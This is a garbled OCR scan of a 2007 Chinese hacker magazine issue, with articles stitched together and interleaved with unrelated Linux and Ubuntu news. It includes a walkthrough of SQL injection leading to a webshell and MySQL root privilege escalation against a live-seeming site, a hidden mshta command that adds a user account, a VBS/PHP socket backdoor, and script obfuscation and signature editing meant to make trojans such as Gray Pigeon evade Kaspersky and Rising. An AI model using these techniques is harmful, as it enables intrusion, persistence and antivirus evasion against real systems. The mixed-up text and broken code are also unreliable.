> 编辑点评：应该说这本的安全性还是很高的，要不是作者利用注入手动口令为基础，思路则请而地进行下去还是需要很大的波折。文章通过前文所叙号的应该是理解非跟作语言在入侵中所起的作用！

从本文您可以学到：简单的 php 整站注册。

大家好，我是 rabbitsafe，这段时间由于工作很忙，一直没有时间写文章了。这个文章总结是一个 php 注入渗透的实例，比较简单，但是网站的建立就是起比较多的，大家可参考一下！下面开始这次的渗透之旅。

- 1. 一、拿回成效权限
- 2. 二、拿回成效权限

一天在网上闲逛，一朋友给我发来一个网站，好像是 v 客俱乐部，新版色站上的网站。首先看下了结构，是 php+mysql 的，web 服务器用的是 iis6.0。系统运行的是 windows 2003（如图 1），网站程序用的是整站程序，整合了 blog 和 bbs，blog 是用的 supersite，bbs 用的是 Discuz6.0.0，这两套系统的安全性都比较高，一般也很难找到突破口。


# 【西线无战事】← 2007.12  耶安宝・黑客手册


上查了一下，也问了几个朋友，帮忙不清楚，哎…，既然是整站程序，那 blog 后台也可以进啊！用这个账号和口令也成功进入了 blog 后台，好像后面能利用的地方也很少。接着发现居然还有一个

提交 “and 1=1” 的时候页面一切正常，提交 “and 1=2” 的时候页面没有内容，这足够的测试有没有注入漏洞的语句，但是只对测试型变量注入时有效，如果是测试字符串型变量注入时，就要提交 “' and '1'='2'” 了。

由于这是 php 注入，php 默认会把 “'” 转义成 “/’”，所以在 php 情况下，字符串型不在注入漏洞的。继续提交 “order by 10/*”，页面没有内容返回来，说明字段大小比 10 小，再提交 “order by 5/*”，页面返回正常，说明字段比 5 大。说明字段大小在 5～10 之间，用 union 联合查询，提交 “and 1=2 union select 1,2,3,4,5,6” 一共 6 个字段，返回来字段数（如图4）。


接下来看看建 se mysql 用户权限，提交 “/**/and/**/1=2/*/**/union/**/select/**/1,username,password,4,5,6/*” 返回回来是 a0820152330@localhost，好像不是 root 用户，无法读取文件内容。继续检测，猜后台表名，常用的表名全试了一遍，都不行。

思路停顿了……开始不是查看过网站结构吗，网站用的整站程序，数据库里应该就存在一个库，bbs 用的是 Discuz6.0.0 版本，默认管理会员表名是 cdb_members，如果程序安装时没有修改表名，可以用管理员账号和口令了，马上提交 “/**/and/**/1=2/*/**/union/*/*/select/**/1,username,password,4,5,6/*” 终于成功返回管理账号和口令（如图5）。


新修管理后台，用这个账号和一个试试看，运气真好啊，一般像这种整站程序，管理用的账号和口令都是一个（如图6）。后台有上传图片的地方，但是好像对后缀名进行了过滤，再看看新闻编辑器，用的是 FCKeditor，这个编辑器有些漏洞，不知道它补上没有。

点击“增加新闻”，然后点击“上传图片”，可以浏览服务器文件，可以新建文件夹。前面对服务器测试过，是 windows 2003 系统下安装的 iis6.0，应该支持 asp，可能有文件夹解析 asp 文件的漏洞。


新建一个 .asp 的文件夹，然后把 asp 木马改成 jpg 后缀，上传到这个新建的 1.asp 目录下，成功运行，拿到 webshell。（如图7）。

## 二、拿服务器权限

现在，成功拿到 webshell，接下来，看看能不能成功提权。在 webshell 目录下面有一个 phpmyadmin 文件夹，可能管理员管理数据库是用 phpmyadmin 进行管理的，但是数据库配置好后，又没有删除，一般管理员都要用 root 权限才行的。进入 phpmyadmin 文件夹，查看连接数据库的文件 “config.default.php”，果然是用 root 用户连接的，口令还是原来管理员的口令。看样子，这台服务器就是这个管理员在管理，mysql 的 root 口令也是管理员设置的。（如图8）


知道 root 口令就好办了，接下来，传一个 php 的 mysql 提权马上传，利用 root 提升权限。在 a host 处填写 localhost，因为是本机，mysql 账号处填写 root，密码处填写 “config.default.php” 文件里 root 的密码，数据库名填写 mysql，这里是 mysql 数据库默认的一个库，点击试一试

№HACK 453

## 非常规运行 vbs

高手专栏

连续三期的 vbs 专题，终于要让没有接触过 vbs 的读者感到亲切愉快，现在进入另一期新的好了。不过承蒙你的支持，高手老杜不只是家喻户晓，而且是个极其顶级的 vbs 专家。希望能够让大家学习到 vbs 相关的技巧。

vbs 有一个对象是 “SAPI.SpVoice”，可以用它来讲英语。这个组件在 xp、2003 上默认都可以用的，调用后可以朗读电脑上一个少年老人的话。好比这样一句代码：CreateObject("SAPI.SpVoice").Speak "I LOVE YOU"，保存成 vbs 后缀后双击就会听到英语的发音了。也可以将它录制到另外一个网页中，不保存成 vbs 或 vbe 后缀如何运行 vbs 代码。

### 一、用 mshta 来运行 vbs

这种方式类似于执行后台代码，vbs 运行过程不可见。用 mshta 直接创建一个 vbs 脚本文件：mshta vbscript:CreateObject("sapi.spvoice").Speak("I LOVE YOU.")(window.close)；运行后会听到发音。该方式的意义是临时生成一个 hta 文件，然后运行该 vbs 代码，再调用 window.close 将运行窗口关闭。它的运行过程是看不到窗口的，比较适合做隐藏执行。

```
mshta vbscript:
createobject("sapi.spvoice").speak("I LOVE YOU.")(window.close)
close)
&exit

::begin
rem 下面并非写成法？
.net user tex 12345 /add
```

这个代码只能双击运行，运行过程中你看不到具体的处理流程。第二个步骤是把要处理的文字放在网页中，通过 mshta 调用系统的脚本对象来执行更复杂的命令。下面是一个常见的在网页中执行脚本的示例。

成功登录。（如图 9）随后，使用 sql 命令 “create function cmdshell() returns string ...”，点击“执行”，执行成功。（如图 10）现在就可以使用 cmdshell 函数来执行系统命令了。


### 二、用 ie 地址栏运行 vbs

很多人会会用 ie 地址栏运行 js、vbs。其实 vbs 一样是可以的。我们随后打开一个网站，在地址栏中输入 vbscript:msgbox(Document.links.length) 后，按回车就会看到当前页面有多少个链接。

```
<a href=http://www.sohu.com>www.sohu.com</a>
<a href=http://www.baidu.com>www.baidu.com</a>
```

这是两个链接，保存成网页后点击就会跳转到不同的页面。如果这个页面有跨域限制，也可以使用 document.links、document.images、document.forms 等对象来枚举页面内容，达到交互和控制页面的目的。

### 三、调用外部组件来运行 vbs

vbs 本身功能非常有限，但是可以调用很多外部组件来完成与外部的交互。常见的有 WinSock、zzzevazz 之类。通过创建组件来实现更强大的功能，甚至可以绕过某些限制。


## 二、总结

其实网上还有很多这种类似的思路，可能 bbs 和 blog 等程序都比较新，没什么大问题，但是对于其他系统就不一定了。合理地使用脚本、组件和外部对象，可以让 vbs 更灵活。

# 【黑手专栏】— 2007.12 非安全_黑客手册

vb6controls.rar 这里下载，前不久学了一段时间 php，网上看到一个 php 的监听程序，可以用它来做一个后门，s 端 s.php 代码如下：

```
vb
' 设置一些基本的参数
Host = "192.168.8.100"
S_port = 12345
' 设置延时时间
Set_time = 1

' 创建一个Socket
sSocket = socket.create("AF_INET", "SOCK_STREAM", 0) ' or' die("Could not create")

' 绑定Socket到端口
result = socket.bind(sSocket, Host, S_port) or die("Could not bind to socket\n")

' 开始监听连接
result = socket.listen(sSocket, 3) or die("Could not set up socket listen\n")

' accept一个incoming connections
$spawn = socket.accept($socket) or die("Could not accept incoming connections")

' 另一个socket来处理输入
$input = socket.read($spawn, 1024) or die("Could not read input\n")

' 清空缓冲区
$input = trim($input)

' 处理客户端输入并返回结果
$output = strrev($input)

socket.write($spawn, $output, strlen($output)) or die("Could not write output\n")

' 关闭sockets
socket.close($spawn)
socket.close($socket)

```

在 ie 打开这个 php，运行它的服务器会监听 12345 端口。如果我们再用 vbs 向 12345 端口发包的话，在同文件的 php 目录下会生成 ok.php。发包的内容竟是我们要写入 ok.php 的代码。该 vbs 文件 c.vbs 代码如下：

```
vb
Set ie = WScript.CreateObject("InternetExplorer.Application")
ie.visible = false
ie.Navigate "http://192.168.8.100/x's.php?e=服务端"
While ie.Busy
    WScript.Sleep 100
Wend

Do
    WScript.Sleep 200
Loop Until ie.ReadyState=4

Set socket = WScript.CreateObject("MSWinsock.Winsock")
socket.Protocol=0
socket.RemotePort=12345
socket.RemoteHost="192.168.8.100" '主机
socket.Connect (socket.RemoteHost, socket.RemotePort) '连接
WScript.Sleep 10

' 这里可以改写成一句话的php木马
socket.SendData "<?php ... ?>"
WScript.Sleep 100
WScript.echo ""
socket.SendData Chr(13)
socket.Close

Set ie = nothing

```

一个 vbs 和一个 php 联系整合，打造了一个非常规后门：当其交于后门中的假值不大，但重要的是思路，不是吗？

【文章中的 s.php 和 c.vbs 已收录在本期光盘】

# 谈 VBS 在 Hacking 中略扮演三
## 浅谈脚本的加密与解密

LCX 大哥给下了任务，写三期 VBS 专题的文章。已经写了两期了，这次是第三期。自己实在不知道写什么了，只好让 LCX 大哥给出个题材，LCX 大哥回话说，你写个脚本加密与解密的吧。本想，这加密与解密有什么好写的呀。但是 LX 大哥说，需要满足各个层次的要求，得顾及小菜们。

OK，那就别说究竟了。我们进入主题吧。脚本的加密不外乎是为了隐藏各类杀毒软件的查杀及提升免遭到病毒代码。由于 Windows 脚本是一种解释性语言，明文保存代码。杀毒软件只会对一些特征字符串敏感，敏感字符串查杀。当我们把脚本进行加密后，由于打乱了原来的顺序，甚至空安全性，从而躲过了杀毒软件的查杀。但脚本保护源代码来讲，那就真是比较废，此时，我们加入了解密功能来保护你的脚本，来躲避杀毒软件的查杀。其实的一般的脚本加密并不会像想象中的那么难。只要有一定的 VBS 脚本基础就可以做到。

```
vb
Function Str2Hex(ByVal str)
    Dim i, Hx
    For i = 1 To Len(strHex)
        Hx = Hx & Hex(Asc(Mid(strHex, i, 1)))
    Next
    Str2Hex = Hx
End Function

```

例子：
msgbox Str2Hex("msgbox ""NetPatch Say Hello!""，如图 1 所示。")


msgbox "NetPatch Say Hello!" 被转换后变成了 6D7367626F... 这样的字符串便于记忆，只是这样转换过的要怎么才能我们利用呢？让我们接着看这个函数！

```
vb
Function HexToStr(data)
    HexStr = "EXECUTE "
    HexToStr = ""
    C = "CHR(" & H
    N = 1
    Do While Len(data)
        If IsNumeric(Left(data,1)) Then
            HexToStr = HexToStr & C & Left(data,2) & ")"
            data = Mid(data,3)
        Else
            HexToStr = HexToStr & C & Right(data,4) & ")"
            data = Mid(data,5)
        End If
    Loop
End Function

```

# 我仍再把刚才用 Str2Hex 函数转换过的内容再用 Hex2Str 反转回来看看！

msgbox "6D7367626F7820224E6574..."，如图 2 所示。


```
Function Hex2Str(data)
    ' 字符串转数字（支持中文）
    HexToStr="EXECUTE """"
    Cur="&CHR(&H"
    Now=""
    Do While Len(data)>0
        If IsNumeric(Left(data,1)) Then
            HexToStr=HexToStr&Cur&Left(data,2)&Now
            data=Mid(data,3)
        Else
            HexToStr=HexToStr&Cur&Left(data,4)&Now
            data=Mid(data,5)
        End If
    Loop
End Function
```

运行脚本后，弹出了 NetPatch Say Hello! 如图 3 所示。


这个就是最简单的加密了。嘿嘿，是不是很容易呀。可是每次都这样转来转去，挺麻烦的。我们就要每个加密都哄，以后有脚本要加密，就用自己写的脚本加密器加密吧。

```
'--------------------------
' 说明：使用 wscript.quit
' 若有参数则退出脚本
' 未加参数则执行加密
'--------------------------
if err.number<>0 then wscript.quit
if err.number=0 then wscript.quit
wscript.echo "Execute[HexToStr("&Str2Hex(data)&")]"

Function HexToStr(data)
    ' 把字符串转为十六进制
    Do While Len(data)>0
        If IsNumeric(Left(data,1)) Then
            data=Mid(data,3)
        Else
            data=Mid(data,5)
        End If
    Loop
End Function
```

# 题目：不倒 DELL 的情况下免杀 DELL 文件

从本文你可以学习到：免杀 DLL 文件

首先生成一个服务端测试，按照图 1 一步一步来。先调用 XP 相关接口，然后用灰色按钮突破这个小工具，再进入连接选项，从 URL 获取连接 IP 和端口。最后点击“生成”，生成一个服务端。

## 如图 3。

接下来 MYCCL 登场，载入“文件比较”大，生成 200 个先后，生成好了，卡巴查杀，把带毒都删除掉，如图 4。

MYCCL 二次处理，照上一步，卡巴查杀，这次没有出现带毒的文件，图 5。

再改点 MYCCL 的二次处理，就会告诉你特征码的范围了，这里是：[特征] 0001D69A_00000CB2；可是这个范围太大了。我们点击特征区间，右右找到的特征区间，点击“设备定位此处特征码”，约 300 个文件，点击生成故障。照前面一样的方法，卡巴查杀，MYCCL 二次处理，直到没有带毒文件出现为止，这里就找到了区间比较小的特征区间：[特征] 0001DB4A_0000000A，1 个字节。UltraEdit-32 打开特写找到 0001DB4A，我尝试修改 0001DB4A 和 0001DB4B 两个地方的 16 进制为 00，另存为文件“未免杀的服务端 l.exe”，卡巴查杀，无毒，如图 6。

无畏不能说明什么，我们要看看它还能否正常工作，先关掉卡巴，运行程序，嘿嘿，内功上线啦，如图 7。

说明显修改成功，如果并带卡巴已配，无毒程序的行为将出现了 2 个窗，如图 8。

看看病毒运行后的情况：C:\WINDOWS\system32 下生成 3 个文件：brc_server.dll、brc_server.dat、brc_server.exe；C:\WINDOWS\system32\drivers\目录下生成 sysdrm.sys 文件，其中 brc_server.exe 就是我的“未免杀的服务端 l.exe”，brc_server.dll 是要注入 SVCHOST.EXE 中来实现自启动的，sysdrm.sys 我认为是为了过卡巴的主动防御而用到的一个驱动文件。看来这 2 个文件也把我打的，文件该如何绕过、让它们不被识别为木马，还在多研究。然后打开 UltraEdit 打开 sysdrm.sys 和 brc_server.dll 2 个文件，为 MYCCL 做他们的免杀，找出相应的特征码为 0（或掩码试过 2、64、255 都不管用，还没去）。

后面就在站点“XXXXXX”是对应的在服务器里的地址，再用 UltraEdit 打开，按前面修改，找到对应的地址进行修改，经过测试修改得到 999999 两处 16 进制代码和 0007E740 和 0007E741 两处修改为 00，得到 brc_server.dll 免杀，修改 00080238 和 00080239 两处 16 进制代码与 dr.sys 就达到免杀。

8 个字节，8 个 00，让卡巴又难又酷，免杀其实不是很困难，耐心多一点，经验多一点，我不敢说我最先能高手，但是多练练就可以成为免杀的高手。本来以为免杀就可以多用几月无免杀马，结果今天更新了卡巴比起我自砸了手，让大家原来就不免杀的东西反而会更糟，还是这是在赶不到 DLL 文件的情况说免杀的一种方法，我都希望自己能想到这样一个方法并成功免杀一个木马，虽然有点辛苦，虽然这个工具，现在已识别效果了，我后来了很多用于用的。还是免杀实现可能需要复用好具巧，也请大家多多发展研究。我这里用到了一个方法做的更好是在于找到了自己想定的目标，完成了一个小目标。


# 资彼瑞星的主动防御

从本文你可以学习到：如何突破瑞星的主动防御

## 一、相关功能介绍

主动防御功能是一种阻止恶意程序执行的技术，该技术可以很好的弥补传统杀毒软件采用“特征匹配”带来的技术缺点，在病毒发生修改时进行主动有效的全面防范，因此能从根本上有效拦截对未知病毒的传播运行。从技术角度讲，主动防御也称为“行为分析引擎”，其工作原理是防护程序对一部分行为进行实时分析，预测其是否为异常行为，程序进而对异常行为做出防御拦截，来阻止主动防御功能执行。今天当主动防御功能并非是卡巴斯基的专利，其他包括 McAfee、威金主动防御和某杀毒软件都有类似的功能。主动防御应该是瑞星 2008 最大的亮点，各家杀软防御、应急反应和网络安全拦截已经成为系统防护主流。现在流行于网络，黑客攻击、木马后门、蠕虫等常见问题，可能会被恶意行为拦截，即使是一些类似的功能，但是主动防御功能还是非常有积极的。

## 二、免杀准备阶段

由于卡巴斯基在程序注册方面存在缺陷，因此应该通过修改系统时间即可绕过该功能。可是要想利用这种方法绕过瑞星的主动防御，无论于我们来说是非常的不是安全的，因为瑞星和卡巴斯基的注册方式完全的不同。不过想起主动防御功能的检测，并非总是需要对文件进行无条件信任，这里我们就使用一款常见的系统辅助工具，实际上这只要是最常用的免杀工具。我们先通过 C2Asm 这款汇编工具，点击“文件”菜单中的“打开十六进制文件”命令，选择刚刚制作好的那个需要免杀处理的服务程序。接着点选“搜索”菜单中的“搜索”命令，在搜索窗口中的搜索选项中输入“*防专版”如图 1 所示。


在找到这个资源信息内容后，通过鼠标右键中的“粘贴”命令，将“*防专版”替换为其他的相似内容，比如“自由战士”等字样，接着按照相同的方法对“灰鸽子远程控制服务端安装成狗”等文件，以及“IEXPLORE.EXE”文件等内容进行替换，找到以后进行大一些小小的替换即可。接着还需要进行进一步的操作，在搜索列表中选择“十六进制”后搜索内容为“56 00 43 00 32 00 35 00 50 00 4C 00 55 00 4C 00”这段代码，将其复制后粘贴替换其他相似内容，并继续进行伪装操作，完成后即可。

## 三、主动代码

文件免杀完成后打开瑞星主动防御功能，接着当我们运行系统写的服务端程序，瑞星立即弹出一个窗口，提示用户发现一个灰鸽子木马的变种，如图 3 所示。由此我就得出瑞星的主动防御功能还是比较有特色的，主要是用来提防黑客、木马、恶意等方面的 DNA 识别技术。当程序出现可能的恶意行为时会使用 DNA 扫描确认文件的性质，这也就是说明它的主动防御和配置特征码进行全都查询的理念，下面这个是指纹库盒标记的本质。'


现在我们进入到分身目录中，接着用 OD 分离载入这个区段，如果主动防御没有提示，那么就再进行一次，就可以再次跳转到该行进程，接着按照表格中的步骤执行，单击点击“二次处理”按钮，接着按照上面的步骤用 OD 进行操作。经过一次一次的重复跳转后，最终得到了主动防御特征码的本质。需要声明的是这里使用的文件装入方法和直接通过代码进行搜索。

[特征] 0009F4D0_00000002
[特征] 0009F4DE_00000002
[特征] 0009F4D0_00000002

同样运行 C32Asm 后载入服务端程序，接着点击窗口右键中的“跳转”命令，在弹出的“OFFSET”输入特征码地址，点击确定按钮就会自动跳转到特征码的位置。当我看到跳转到的地址后才发现，这个特征码的地址居然和那条有的特征码一样，位于图 5 所示。


## 四、突破主动防御

现在到了本文的关键部分，然后突破瑞星的主动防御。当我


们运行修改后的服务端程序，由于服务端程序会向注册表写入启动项，同时向系统磁盘写入服务端文件内容，因此主动防御功能会毫不留情地进行拦截。无论用户点击“阻止并隔离”还是“放过”按钮，都不会使服务程序成功运行，除非点击“信任该程序”，自动加入白名单选项。因此我们现在必须从服务端程序的配置信息重新设置，这种方法操作起来非常简单。首先在服务端程序的配置过程中，去掉安装路径为 `C:\Documents and Settings\All Users\[开始]` 菜单\程序\启动\ 接着将“启动项设置”中的两个选项前面的勾去掉，然后在“高级选项”中只选择“使用 `IEXPLORE.EXE` 进程启动服务端程序”。这样服务端程序运行以后，就会将文件释放到“启动”目录，以后服务端程序不但可以同机启动，而且再也不易触碰主动防御的拦截，如图 6 所示。


除了上面这种方法外，还可以安装 `RAdmin` 的方法来操作。在“安装路径”设置为 `%SystemRoot%\System32\server.scr`，当然你也可以设置其他的磁盘路径。同样将“启动项设置”中的两个选项前面的勾去掉，因为我们通过某些不能触碰服务端程序来进行访问，其他的选项根据自己的需要进行设置即可。在先加载系统安装程序的服务端程序，接着从安装路径中拷贝出来，放入在上面设置路径中，点击“运行”命令即可运行并在弹出来的对话框中隐藏，这样服务端程序就会默认进入运行，接着开始进入文件修改，则为服务端的文件系统检测等等。最终在“运行”命令中选择“将服务端程序解压进系统目录”选项，也同样可以设置到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services`，这个注册表也将启动时驱动以及服务端程序便会中毒开始工作；将“WebClient”服务项，将其修改为 `Other` 选项，将路径改到安装路径中，如图 7 所示。


# 五、小结

到此为止，关于如何突破瑞星的主动防御，就为大家介绍到这里。其实总的来说瑞星的主动防御还是不错的，每一款软件都不是十全十美的，都存在着某些缺陷和不足之处。正因为此，成为我们突破的缺口，而所称我们加以利用。

> 【本文章的相关工具已收录在本期光盘中】

编辑点评：理论与实践结合，一向都是真理的最佳形式，既解决了复杂的问题，又解决了无奈的时候，文章有参考价值，清晰地阐述了从何突破和漏洞还是依靠我们自己。

# 特征码“笼”贴来

从本文你可以学习到：

如何变出特征码

修改特征码是黑客的必需手段，可是有时候，用 OD 截会碰上一些奇怪的特征码，双击后汇编时，只弹出来的汇编窗口里面不显示原有指令，下面来详细介绍一下。先来看两个图片，来分别对话说说前文的奇怪特征码是怎样回事。如图 1 这个图片是常见的特征码，双击指令后弹出的汇编窗口里面显示原有的指令。修改如图 2 是我所说的特殊指令，双击后，汇编窗口没有指令。

双击不出现原有特征码，当然也无从更改里面的特征码了，好，那就试试隐藏在这里的特征码吧！上述针对几句指令，按右键，选择二进制，再选择用 NOP 填充，如图 3。

填充完，发现特征码处变成了这样，如图 4。接下来在 NOP 填写的地方右键，选择“撤消此处修改”，如图 5。


# Linews

Linux 普适：

在视觉效果和性能上，Windows 似乎要略占主动，与 Ubuntu 像的东西来了。那现在是说中国的 Windows 2000，直到内测版，而用了一些不知名 3rd 派软件去下载，这些做法难道能行得了或许会好？似乎真的不是这样了一种，微软在互联网和创新方面的优势（也许是因为时髦技术没法试）？还是因为当时，缺少一个真正接触开放的竞争对手？

- 1. **5 大优势 Google 要用手机通微软**

2007 年 11 月，在 Google 正式宣布开发手机操作系统之后，它与微软之间的竞争又一次成为业界关注的焦点。5 日，互联网搜索巨头 Google 公布了自己的移动战略，宣示正式进入手机领域。

在会上，Google 并没有公布大规模具体已久的 GPhone 手机，而是出乎大家意料地宣布与 33 家终端厂商和运营商缔结“开放手机联盟”，共同开发基于 Linux 的开放源代码手机操作系统，目标是让手机功能像电脑一样完整。Google 也宣布将手机浏览器功能以及相关的 IT 服务带到手机和移动平台上（如地图、搜索、电子邮件等），同时与 Android 平台相连，并计划将早些年的手机系统开发商并入 Android 项目。

目前，Google 已允许部分手机厂商发布 Android 平台手机系统，且将持续向更广泛的消费者市场开放。

- 2. **Mozilla Firefox 向中国本地化开源之路**

目前，中国网民的数量已经跃居全球第一位，使用 Firefox 的...

浏览器的用户数量也不断提升，对于国内众多 Firefox 爱好者及潜在用户而言，适合网络的落地，可能为 Firefox 的中国 FANS 来说就是一大好消息。谋望网络将在技术创新、本地化应用等方面做出努力，除了在中国市场上测试更多的大众关注，下线和使用 Firefox 浏览器，还将针对中国用户的使用特点，进行本地化开发，建立由中国版的 Firefox 开发社区，壮大 Firefox 浏览器在中国市场的影响力。

凤凰点评：

对于“风火离不火”这是一个好消息，但的风火最终都要个人生活，她的又会像人们说，是如何台价的上门号情了。但国家软件长期以本地的形式是没有恶、前期，火球全球份额直仅 30%，在中国又将成为新的野战？

- 3. **Skype for Linux 2.0 Beta 推出**

Skype for Linux 2.0 Beta 推出，在 Linux 上面使用 Skype 的用户终于可以使用视频聊天功能了。在此之前，只有 Windows 和 Mac 平台下的 Skype 具有视频聊天功能，而 Linux 用户对 Skype Linux 版添加视频聊天功能的呼声由来已久。

凤凰点评：

记不清前 Skype 还是我们最熟悉也作了一起，显然有社一支神的强国！可将是个很好的得益者用户心里的一列对吗？那可以做出有会让我们在有没有更完美的状态，还是要谨慎之类的安全。

- 4. **绕过 Windows 的快速启动技术**

Phoenix Technologies，知名 BIOS 软件开发商，正在开发一种叫多重空间（Hyperspace）的新技术。这项技术允许用户即使在 Linux 系统中少花时间去启动电子邮件、浏览器、媒体播放器等，无需进入 Windows 系统。Phoenix Technologies CEO Woody Hobbs 称，“Windows 变得越来越复杂，启动时间越来越长。”

凤凰点评：

很有创意，但不知道是否正是魅力呢，嵌入开发了？那 BIOS 不是要向着 CPU？毕竟要添加一些程序是固定的，需要更多的 I/O 支持。看来 Phoenix Technologies 不会专门为这款功能服务。

# Ubuntu 桌面环境体验——多媒体与网络篇

在 11 月份的杂志中，我们讲述了如何安装 Ubuntu 7.10，这里再补充说明几点。

Ubuntu 的安装光盘有两种，一种称为 Desktop，一种叫 Alternate。前者采用先选择桌面后安装的方式，大多数的电脑都能采用这种方式安装。如果不幸有些老电脑（比如某些 Ati 显卡）不能进入桌面，那 Ubuntu 也准备好了字符安装方式，可供使用。

现在看来，是不是最原先的不同了，如图 6。现在可以双击修改特征码了吧——赶快来行动吧——为方便研究，我把这个本子一直对电脑出来，但是，请不要运行，它是个很强的载荷。

【本文内容的相关工具已改装在本小组中】

编辑点评：

特征码也能变出来，这确实有点怪，太帅吗？那分神地大家分享这是一个技巧！

安装步骤照例省略了，但是基本步骤还是和 Desktop 类似，这里就一笔带过了。

第二，对于某些上网不很方便的用户，可以下载 DVD 的 ISO 副盘，或者直接硬盘安装。DVD 的盘里面包含了 3.5G 的常用软件包，或者直接覆盖安装。所有的 Ubuntu 的软件包可能有几个 G，要知道 Ubuntu 的“仓库” Debian 4.0 包含了 4 张 DVD 光盘。

第三，对于老苹果电脑的用户，Ubuntu 专门准备了 ppc 版本的发行版，官方论坛也有专门的技术支持，不过 7.10 版本的 Ubuntu 可能没有得到较快的认证，最后将那些旧的 PowerPC 可能进不了桌面，需要安装低版本的 xserver-xorg-video-ati 才能解决。不知道最新的更新有没有解决这个问题。

接着我们进入正题，如何设置个人用户桌面。Ubuntu 采用的默认桌面环境称为 Gnome，比较有名的桌面环境还有 KDE 和 XFCE，分别被 Ubuntu 的衍生版本 Kubuntu 和 Xubuntu 所采用。Gnome 桌面环境给人的感觉总会稍旧但不笨，KDE 是那种华丽到有点腻胖了，XFCE 可以看作 Gnome 的简化版。这里我们主要来讨论 Gnome 桌面的一些应用程序。

很多个人用户最关心的就是多媒体方面的应用了。Ubuntu 默认的视频媒体播放器是 totem-gstreamer，如图 1 所示。它是一个全能播放器，能播放几乎所有的视频和音频文件，最大的问题就是自定义功能不是很强大，远远比不上 Windows 平台上的一些媒体播放器。很可惜，在默认安装的情况下，Totem 不能播放大多数流行的格式，比如 mp3、rmvb、H.264 等等。为什么呢？因为这些媒体文件的解码器是有版权的，所以 Ubuntu 默认是不会安装这些解码器的；这里插一句，最晚古老的 Linux 发行版 Debian，任何有版权干预源编排的软件都不能进入该发行版，Ubuntu 则为了更强大和易于使用，加入了很多有版权的软件，比如有版权的解码器。

Ubuntu 7.10 加入了一个叫 gstreamer0.10 的插件，也严格地说符合条件的格式，其他还是要靠这些包才能支持。此时要在默认的 Totem 下直接播放很多流行格式，还要自己安装相应的解码器，比如要播放一些 mp3 文件时，使用 totem 打开会有这样的提示，如图 2 所示。按下 “search” 键，继续 “confirm”，在前面打开安装即可，安装之前会需要输入用户密码。当然另外一个更好的办法是一次安装好这些解码器，可以用如下步骤来安装。打开上方的应用程序—附件—终端，在终端中输入 `sudo apt-get install gstreamer0.10-plugins-bad gstreamer0.10-plugins-ugly gstreamer0.10-ffmpeg`，确认用户密码即可。可能某些文件包没有安装完整，再次启动一回终端便不能播放。

```bash
sudo apt-get install gstreamer0.10-plugins-bad gstreamer0.10-plugins-ugly gstreamer0.10-ffmpeg
```

于是我们就要给 Ubuntu 下默认的音乐播放器是 Rhythmbox，如图 3 所示。音乐格式也不能播放 mp3 文件，安装解码器后便可正常播放；好在前面配置过 totem 的时候已经做好了，结果它能直接播放了。iPod 用户幸福了，Rhythmbox 可以直接在 iPod 和电脑上传歌而不用装 iTunes 了，当然苹果公司也没有出 iTunes for Linux 的版本。

Totem 和 Rhythmbox 是 Ubuntu 默认的视频和音频播放器；它们用的后台是 gstreamer，还有一个后台是 xine，不是 Ubuntu 默认的，有人可能会认为这是因为默认的 gstreamer 的功能还不是很完善，现在我觉得没有必要换后台了，因为 gstreamer 已经很强大。

刚刚介绍了两个默认的播放器，这里再推荐两个，一个是全能播放器 mplayer，和刚才的两个播放器不相上下。atwin-dowspy 平台上也很流行，很多流行的下载格式都是基于 mplayer 的。在 Ubuntu 上 mplayer 界面稍显得比较强大，使用上也有些麻烦，不过功能很强，命令行版本和 gui 版本都在。默认的 GUI 版本里也有很多界面上的美化和多媒体播放相关的工具。

另外一个是音频播放器 audacious。和 Windows 下的 winamp 非常像，可能想当用户习惯了这个界面，喜欢的也比较习惯，在这里也一并介绍一下。Ubuntu 下装好解码器后几乎能播放所有的音频，但是不是全部，因为流行的 ape 文件的解码器是有版权的，暂时不能下载安装，可以下载安装 audacious-mac 的 deb，又或者安装插件即可。

以 mplayer 为播放器，KDE 下也有很多优秀的播放器。基本 mplayer 有一个对应的编码器 menuencoder 还是很有名的。相继大家都不知道是为什么要用 mplayer 来播放视频的，Ubuntu 社区也对于播放器的策略做得很好：播放器的支持非常优秀。

图 3 Rhythmbox 播放器

下面进入第二个话题，个人用户最关心的另外一件事情就是上网了。Ubuntu 基本上是完全开源的操作系统，所以在很多方面上都符合用户需求。TCP/IP 协议一开始是在 UNIX 平台的 BSD 上流行的，那个时候还不知道有很多微软公司，Linux 作为 UNIX 的一个延续继承了一段良好的传统。在 Ubuntu 上用户可以联接本上所有和网络有关的事情。不过由于系统本身并不是全部开放，因为个人的很多地方都有特色。web 程序的代码是 IE only，根本不遵守 W3C 的标准，也没有很良好的支持。

# 正安…黑客手册 2007.12 ->[国外]

好的测试，以为在他的电脑上用 IE 就能打开网页了就完成了项目，根本不顾及非 IE 非 Windows 平台的用户。这种硬伤是 Ubuntu 所不能解决的。Ubuntu 也无需解答，因为随着技术的进步，这些小视超宽的站点自然会的改进，节省更坏境去往生存。

网络应用对于普通用户也就几个大方向，即浏览器，即时聊天和下载，另外加上 e-mail 服务，在线游戏或者网络游戏。阅读和 Windows 下而没有大区别，只不过 Ubuntu 下要改用 IE，Ubuntu 下默认的浏览器是 Firefox，使用 Firefox 的优点很多，第一跨平台，Windows 上有，Linux 上有，x86 上有，ppc 上也有，第二标准多支持也可以毫无疑问地说 if 有 5 在多个任务下的性能更强大，第三个采用了 adblock plus 能屏蔽几乎所有与程序相似的网页元素，这里有一下表述：在本作者底下跳转的下载案例，和四（5）（1）（2），在启用了 adblock 之后，论坛上方和右侧的广告栏一扫而空，眼睛清静不少。


再推荐一个下载插件，由于 Ubuntu 的下载软件不是很丰富，所以这款 FlashGot 插件正好和 FF 结合得非常好，使用的人也非常多，也可以另外加装一个 IE tab 插件，IE only 的页面也可以访问了，当然在桌面可以去 addons.mozilla.org 下载。当然 Ubuntu 下面也可以用其他浏览器，比如 Opera，adillo，适用于 CPU 不是很强大且古董电脑，甚至还有多种页面的 w3m，如图 6，CLI 下图也能显示图片，很酷吧。


